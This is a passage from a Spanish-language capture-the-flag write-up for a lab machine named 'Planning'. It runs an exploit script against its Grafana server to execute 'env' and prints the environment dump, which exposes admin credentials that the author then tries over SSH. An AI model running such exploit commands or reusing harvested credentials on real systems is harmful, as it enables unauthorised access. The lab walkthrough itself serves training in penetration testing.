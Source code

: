 pero, si enumeramos las variables de entorno con *env*:
```bash
python3 exploit.py -u admin -p 0D5oT70Fq13EvB5r -c 'env' http://grafana.planning.htb
```

nos responde:
```
GF_PATHS_HOME=/usr/share/grafana
HOSTNAME=7ce659d667d7
SHLVL=0
AWS_AUTH_EXTERNAL_ID=
HOME=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_LOGS=/var/log/grafana
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
AWS_AUTH_SESSION_DURATION=15m
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
PWD=/usr/share/grafana
```

tenemos credenciales! enzo/RioTecRANDEntANT!

si intentamos conectarnos a la maquina por ssh con esas credenciales:
<img src="/images/writeup-planning/Pasted image 20250609232115.png">
